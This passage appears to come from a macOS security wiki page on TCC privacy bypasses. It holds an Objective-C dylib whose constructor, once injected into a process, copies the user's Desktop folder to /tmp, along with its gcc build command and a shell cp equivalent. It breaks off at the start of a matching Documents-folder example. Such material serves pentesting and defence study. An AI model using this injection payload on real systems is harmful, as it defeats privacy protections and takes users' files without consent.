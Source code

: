{% tabs %}
{% tab title="ObjetiveC" %}
Copy `$HOME/Desktop` to `/tmp/desktop`.

```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{  
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

    NSFileManager *fileManager = [NSFileManager defaultManager];
    NSError *error = nil;    

    // Get the path to the user's Pictures folder
    NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Desktop"];
    NSString *tmpPhotosPath = @"/tmp/desktop";

    // Copy the contents recursively
    if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
        NSLog(@"Error copying items: %@", error);
    }

    NSLog(@"Copy completed successfully.", error);

    fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
Copy `$HOME/Desktop` to `/tmp/desktop`.

```bash
cp -r "$HOME/Desktop" "/tmp/desktop"
```
{% endtab %}
{% endtabs %}

### Documents

* **Entitlement**: None
* **TCC**: `kTCCServiceSystemPolicyDocumentsFolder`

{% tabs %}
{% tab title="ObjetiveC" %}
Copy `$HOME/Documents` to `/tmp/documents`.
